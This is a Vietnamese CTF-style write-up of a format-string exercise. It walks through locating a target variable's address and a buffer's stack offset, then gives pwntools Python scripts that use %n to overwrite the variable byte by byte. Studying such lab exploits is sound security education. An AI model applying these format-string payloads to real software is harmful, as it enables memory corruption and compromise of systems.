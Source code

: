 - Dùng kiến trúc 32 bit vì kiến trúc 64 bit thì địa chỉ `changeme` là `0x600af0` có byte `0x0a`
- Tìm địa chỉ `changeme`
![image](https://hackmd.io/_uploads/Hy1XGCRwR.png)
- Tìm vị trí của biến `buf` trên ngăn xếp 
![image](https://hackmd.io/_uploads/rJQ5MC0PA.png)
- Ta thấy các byte `0x41` nằm ở vị trí thứ 12 
- Để thay đổi giá trị của biến `changeme` ta dùng `%n` để thay - Nếu muốn `changeme` bằng `0x64457845` ta cần `0x64457845` byte trước `%n` để thay đổi giá trị nhưng giá trị này rất lớn nên ta thay đổi giá trị từng byte 
- Ta đưa địa chỉ từng byte vào dữ liệu đầu vào
```python
from pwn import *

changeme = 0x8049844

payload = p32(changeme)
payload += p32(changeme+1)
payload += p32(changeme+2)
payload += p32(changeme+3)

payload += '%x '*11
payload += '%n'

print(payload)

```
- Ta xem địa chỉ đầu tiên đã có giá trị là bao nhiêu sao khi `%n` với dữ liệu trên
![image](https://hackmd.io/_uploads/SJJhNRCP0.png)
- Ta được `0x51` nhưng ta cần giá trị là `0x45` nên ta sẽ đưa thêm dữ liệu vào đủ `0x145` để có được byte giá trị đầu là `0x45`, cần thêm `0x145 - 0x51 = 244 byte`
 ![image](https://hackmd.io/_uploads/H1VLH0RPC.png)
- Tiếp theo ta đổi giá trị byte thứ 2, giá trị này phụ thuộc vào số byte ở trước nó nhưng ta không biết chính xác nên dùng `%n` để biết đã có giá trị bao nhiêu
![image](https://hackmd.io/_uploads/rJmQ8C0D0.png)
- Ta thấy byte thứ 2 đã là `0x45` nhưng ta cần là `0x78` nên cần `0x78 - 0x45 = 51 byte`
![image](https://hackmd.io/_uploads/rJ1oICAPR.png)
- Tương tự với byte thứ 3 và byte thứ 4 làm tương tự
![image](https://hackmd.io/_uploads/SyoqP0AvC.png)
## Script
```python=
from pwn import *

changeme = 0x8049844

payload = p32(changeme)
payload += p32(changeme+1)
payload += p32(changeme+2)
payload += p32(changeme+3)

payload += '%x '*11
payload += 'a'*244
payload += '%n'

payload += 'a'*51
payload += '%n'

payload += 'a'*205
payload += '%n'

```